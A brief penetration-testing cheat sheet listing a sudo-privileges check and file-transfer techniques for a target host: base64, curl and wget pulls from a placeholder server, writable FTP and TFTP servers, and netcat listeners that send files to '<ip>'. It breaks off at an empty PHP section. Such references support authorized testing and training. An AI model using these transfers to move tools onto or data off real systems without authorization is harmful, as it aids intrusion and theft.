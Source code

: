 

Check Sudo Config

```bash
sudo -l
```



## [](#header-2)File Transfers

Base64

```bash
cat file.transfer | base64 -w 0 
echo base64blob | base64 -d > file.transfer
```



Curl

```bash
curl http://webserver/file.txt > output.txt
```



wget

```bash
wget http://webserver/file.txt > output.txt
```



FTP

```
pip install pyftpdlib
python -m pyftpdlib -p 21 -w
```



TFTP

```
service atftpd start
atftpd --daemon --port 69 /tftp
/etc/init.d/atftpd restart
auxiliary/server/tftp
```



NC Listeners

```
nc -lvnp 443 < filetotransfer.txt
nc <ip> 443 > filetransfer.txt 
```



PHP File Transfers
